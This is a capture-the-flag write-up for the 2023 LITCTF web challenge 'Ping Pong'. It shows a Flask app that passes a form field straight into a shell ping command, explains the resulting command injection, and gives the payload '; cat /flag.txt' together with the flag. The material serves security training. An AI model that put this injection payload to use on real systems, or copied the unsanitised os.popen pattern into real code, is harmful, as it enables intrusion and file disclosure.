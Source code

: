 ```yaml
---
title: 2023 LITCTF - Ping Pong
date: 2023-08-08 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_LITCTF
  - Web Exploitation
  - OS command injection
---
```


## Overview

* 387 solves / 114 points
* Author: Ethan

## Description

> I made this cool website where you can ping other websites!

### Attached

[pingpong.zip](attached/pingpong.zip)

This is ```pingpong.py``` file

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)

```

## Analyzation

When receiving ```hostname``` from the ```POST``` method, the command will be executed without validating the data from ```hostname```
```py
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This leads to [command injection](https://owasp.org/www-community/attacks/Command_Injection).

## Solution

Send POST request with the ```hostname``` value
```
; cat /flag.txt
```

The flag is
```
LITCTF{I_sh0uld_b3_m0r3_c4r3ful}
```